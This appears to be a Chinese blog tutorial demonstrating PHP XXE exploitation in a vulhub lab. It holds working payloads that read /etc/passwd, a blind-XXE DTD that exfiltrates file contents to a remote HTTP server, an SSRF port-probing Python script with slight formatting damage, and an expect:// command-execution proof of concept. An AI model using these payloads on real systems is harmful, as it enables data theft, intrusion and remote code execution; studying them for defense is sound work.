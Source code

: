```yaml
---
permalink: 2020/03/16/php-xxe
tags:
  - XXE
layout: post
date: '2020-03-16 08:00:00'
categories:
  - web安全
  - 漏洞复现
home_cover: ''
title: PHP XXE 利用过程演示
---
```


## XXE简介


在理解什么是XXE之前首先要知道什么是XML，XXE的全称为XML External Entity Injection，就是XML外部实体注入。XML是一种通用的数据交换语言，当处理数据时没有限制外部实体的使用，就可能会导致攻击者构造XML外部实体达到窃取数据，命令执行，钓鱼等行为。关于XML和XXE的详细介绍请查看[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)，本文重点通过实验介绍PHP XXE的几种利用。
本次演示使用的环境为：[https://github.com/vulhub/vulhub/tree/master/php/php_xxe](https://github.com/vulhub/vulhub/tree/master/php/php_xxe)


## 获取敏感信息


通过XXE可以获取服务端的敏感信息，比如配置信息，系统文件，源代码等，有的环境是有回显的，有的是无回显的，有回显的相对比较容易操作。


### 有回显


先看源代码：


```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);

echo $xml->name;

```


payload:


```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>

```


通过此paylod就可以回显/etc/passwd的内容：


![20200317174048.png](../post_images/47ba6fd45a8114d855065444f390a75d.png)


### 无回显


无回显的XXE利用必须借助外部服务器把回显内容带出来，这种的XXE也称为 `blind XXE`.


源代码：


```php
<?php
$data = file_get_contents('php://input');

$dom = new DOMDocument();
$dom->loadXML($data);

```


![2020%2003%2017%2020%2011%20{second.png](../post_images/25f6d54e273c982d04a99a9546d10303.png)


如图，如果直接执行的话是没有任何回显的。可以使用http协议将请求发送到远程服务器上，从而获取文件内容。


首先在远程服务器写入一个dtd文件，例如`test.dtd`,文件内容如下：


> `%` 号需要实体16进制编码为 `&#x25;`


```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://192.168.2.1/%file;'>">

```


然后利用如下payload：


```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://192.168.2.1/test.dtd">
%remote;%int;%send;
]>

```


就可以将数据外带到服务端：


![2020%2003%2017%2021%2006%20{second.png](../post_images/25f0e5cf3bcdc6420ff52fcc8bb04059.png)


执行逻辑大概如下：


从 payload 中能看到 连续调用了三个参数实体 `%remote`;`%int`;`%send`;，这就是我们的利用顺序，`%remote`先调用，调用后请求远程服务器上的`test.dtd` ，有点类似于将 `test.dtd`包含进来，然后 `%int` 调用 `test.dtd` 中的 `%file`, `%file` 就会去获取服务器上面的敏感文件，然后将 `%file` 的结果填入到 `%send` 以后(因为实体的值中不能有 `%`, 所以将其转成html实体编码 `&#x25`;)，我们再调用 `%send`; 把我们的读取到的数据以GET请求的方式发送到我们的服务器上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。


## SSRF


上面的两个实验中我们使用了file协议来读取文件内容或者通过http请求来外带信息，这种操作和SSRF很像，其实XXE也是SSRF攻击手法中的一种。接下来我们就演示使用SSRF探测内网主机开放端口和内网存活主机。


探测脚本如下，大家可根据实际情况修改脚本：


```python
_import requests


def buildxml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    sendxml(xml)

def sendxml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://192.168.123.128:8080/dom.php', data=xml, headers=headers, timeout=5).text
    codedstring = x.split(' ')
    if codedstring[7] == "host":
        print("主机不存活")
    else:
        print ("主机存活，探测到的端口服务为：%s"%(codedstring[7]))


for i in range(125, 135):
    try:
        i = str(i)
        ip = '192.168.123.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + ':22'+'/'
        print(string)
        buildxml(string)
    except:
        continue_

```


探测结果：


![2020%2003%2018%2014%2049%20{second.gif](../post_images/d984b0a9211f034cdefa9f1b0fc0fa1d.gif)


## expect RCE


当php安装了expect扩展后（此扩展默认未安装），攻击者就可以利用except进行远程代码执行的操作。


示例POC


```xml
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;</file>
</dir>

```


除此外，XXE还可以造成DDOS,文件上传，钓鱼等攻击，由于环境原因，不便演示，在先知的[这篇文章](https://xz.aliyun.com/t/3357)中作者也有详细讲解，感兴趣的可以去看。


## 参考

- [浅谈XXE攻击](https://www.freebuf.com/articles/web/126788.html)
- [简析XXE](https://www.kingkk.com/2018/07/%E7%AE%80%E6%9E%90XXE/)
- [浅谈XXE漏洞攻击与防御](https://thief.one/2017/06/20/1/)
- [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)
